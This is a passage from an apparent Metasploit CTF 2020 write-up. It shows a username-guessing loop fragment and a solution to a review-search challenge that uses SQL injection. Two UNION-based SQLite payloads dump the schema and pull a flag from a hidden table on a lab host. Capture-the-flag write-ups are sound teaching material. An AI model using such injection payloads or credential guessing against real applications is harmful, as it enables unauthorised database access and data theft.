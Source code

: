 ```py
for i in users:
    guess(i.strip())
```
It found the user to be demo:

{{< image src="/img/metasploitctf2020/port8080_2.png" alt="metasploit_ctf_2020" position="center" style="border-radius: 8px;" >}}

When we submit it we get the url to the flag, 
```
http://172.15.18.101:8080/a3lk3d939d993201ld.png
```

{{< image src="/img/metasploitctf2020/port8080_1.png" alt="metasploit_ctf_2020" position="center" style="border-radius: 8px;" >}}


**Flag**:

{{< image src="/img/metasploitctf2020/3_of_spades.png" alt="metasploit_ctf_2020" position="center" style="border-radius: 8px;" >}}

### 2 of Spades

There's a website with the ability to search for reviews on port 9001.

{{< image src="/img/metasploitctf2020/port9001.png" alt="metasploit_ctf_2020" position="center" style="border-radius: 8px;" >}}

First thing to check with search functionality is SQLi, after adding a quote ```'``` we get a sqlite3 error confirming presence of sqli:

{{< image src="/img/metasploitctf2020/port9001_1.png" alt="metasploit_ctf_2020" position="center" style="border-radius: 8px;" >}}

Using this payload we can get the structure of the db:

```
overwatch' union select 1,sql,3 FROM sqlite_master;-- -
```

{{< image src="/img/metasploitctf2020/port9001_2.png" alt="metasploit_ctf_2020" position="center" style="border-radius: 8px;" >}}

Then we can extract the link to the flag with this payload:

```
overwatch' union select 1,flag,link FROM hidden-- -
```

{{< image src="/img/metasploitctf2020/port9001_3.png" alt="metasploit_ctf_2020" position="center" style="border-radius: 8px;" >}}

**Flag**:

{{< image src="/img/metasploitctf2020/2_of_spades.png" alt="metasploit_ctf_2020" position="center" style="border-radius: 8px;" >}}

### 8 of Hearts
